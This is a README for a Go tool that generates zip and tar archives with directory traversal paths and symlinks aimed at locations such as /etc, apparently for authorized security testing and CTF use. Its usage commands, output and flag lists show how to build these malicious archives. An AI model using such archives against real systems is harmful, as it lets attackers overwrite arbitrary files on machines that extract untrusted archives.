# evilarc

> Legal Disclaimer: This tool is only intended for legally authorized enterprise security construction activities,
> such as internal attack and defense drills, vulnerability verification, and retesting.
>
> If you need to test the usability of this tool, please build your own target environment.
> When using this tool for testing, you should ensure that the behavior complies with local laws and
> regulations and has obtained sufficient authorization. Do not use against unauthorized targets.
>
> If you engage in any illegal behavior during the use of this tool,
> you shall bear the corresponding consequences on your own, and we will not assume any legal or joint liability

evilarc implementing with go, lets you create a zip file that contains files with directory traversal characters or symlink in their embedded path.

Compare with [evilarc](https://github.com/ptoomey3/evilarc), it supports 
- [x] run without dependency
- [x] zip encryption
- [x] symlinks attack.
- [ ] add evil file in compress file with exist file or folder
- [ ] archive(zip) bomb?

## 0x01 Background

Most commercial zip program (winzip, etc.) will prevent extraction of zip files whose embedded files contain paths with directory traversal characters.

However, some software development libraries do not include these same protection mechanisms. (ex. Golang, Java, PHP, Python etc.)

If a program and/or library does not prevent directory traversal characters then evilarc can be used to generate zip files that, once extracted, will place a file at an arbitrary location on the target system.

In *unix system, there may also be symlinks attacks

**My intention of writing this tool was to facilitate security testing during SDLC work and CTF.**
+ Attack in CTF: [CISCN2021 babypython](https://buuoj.cn/challenges)、 [2021深育杯 zipzip](https://xz.aliyun.com/t/10533#toc-4)、etc....
+ Attack in RealWorld:
  You can find much CVE or Framework fix this vulnerability, welcome to add here.

## 0x02 Usage

### 0x01 Path Traversal
1. generate attack zip file without any param
```shell
> evilarc travel

2023/12/09 17:27:35 The filename in the archive is: ../../../../../../../../etc/test_arc.txt
2023/12/09 17:27:35 [+] generate: evil.zip
```

2. generate attack zip file without zip password
```shell
> evilarc travel --travel-file 1.test

2023/12/09 17:01:05 The filename in the archive is: ../../../../../../../../etc/1.test
2023/12/09 17:01:05 [+] generate: evil.zip
```

3. generate attack zip file without zip password for specify unzip path
```shell
> evilarc travel --travel-file 1.test --travel-target tmp

2023/12/09 17:01:49 The filename in the archive is: ../../../../../../../../tmp/1.test
2023/12/09 17:01:49 [+] generate: evil.zip
```

4. generate attack zip file with empty zip password
```shell
> evilarc travel --zip-enc standard

2023/12/09 17:27:57 The filename in the archive is: ../../../../../../../../etc/test_arc.txt
2023/12/09 17:27:57 [+] generate: evil.zip
```

5. generate attack zip file with zip password
```shell
> evilarc travel --zip-enc standard --zip-passwd <password>
```

6. generate attack `tar/tar.gz/tgz/bz2` file (doesn't support encrypt because of these standard)
```shell
> evilarc travel --out xx.[tar.gz,tar,tgz,bz2]
```

7. other help
```shell
> evilarc travel -h

generate directory traversal attack archive

Usage:
  evilarc travel [flags]

Flags:
      --delimiter string        Custom path delimiter, Ex: \/\/ instead of //
  -h, --help                    help for travel
  -o, --out string              Output file, you can also specify xx.[tar.gz,tar,tgz,bz2]  (default "evil.zip")
  -p, --plat string             Platform: [win, unix] (default "unix")
  -d, --travel-depth int        Number of directories to traverse (default 8)
  -f, --travel-file string      Local file you want to traversal, (leave empty will auto generate a file in archive)
  -i, --travel-include string   Local file you want to include
                                 Ex: . or file/folder
  -t, --travel-target string    Path to include in filename after traversal.
                                 Ex: WINDOWS\\System32\\<file> or /etc/<file> (default "/etc")
  -e, --zip-enc string          Zip Encrypt method: [standard, AES128, AES192, AES256]
      --zip-passwd string       Zip password
```

### 0x02 Symlink
1. generate attack zip file without any param
```shell
> evilarc symlinks

2023/12/09 17:31:29 Relationship of symlink: evil/test_arc.txt -> /etc/test_arc.txt
2023/12/09 17:31:29 [+] generate: sym-evil.zip
```

2. other help
```shell
> evilarc symlinks -h

generate symlinks attack archive

Usage:
  evilarc symlinks [flags]

Flags:
  -h, --help                help for symlinks
  -o, --out string          Output file, you can also specify xx.[tar.gz,tar,tgz,bz2] (default "sym-evil.zip")
  -f, --sym-file string     local file you want to include, (leave empty will auto generate a file in archive)
  -n, --sym-name string     Symlink folder name (default "evil")
  -t, --sym-target string   Path to symlink.
                             Ex: <sym-name> -> /etc (default "/etc")
  -e, --zip-enc string      Encrypt method: [standard, AES128, AES192, AES256]
      --zip-passwd string   Zip password
```